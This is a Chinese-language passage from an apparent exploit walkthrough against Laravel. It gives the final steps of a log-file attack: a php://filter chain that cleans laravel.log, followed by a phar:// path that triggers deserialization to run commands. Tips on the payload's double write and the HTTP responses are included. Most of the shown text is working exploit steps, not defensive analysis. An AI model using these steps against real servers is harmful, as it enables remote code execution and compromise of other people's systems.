 注意：因为每次payload都会写入两次，所有请在payload最后面加上一个字母a，只让payload生效一次

（5）然后清除干扰字符好进行反序列化

```
php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log
```

![](.\图片12.png)

（6）触发phar反序列化执行命令

`phar:///Applications/MxSrvs/www/laravel/storage/logs/laravel.log/test.txt`

![](.\图片13.png)

注意：只有在编辑log的时候返回的是500，其他时候都是200，如有特殊情况需要从第一步从新开始
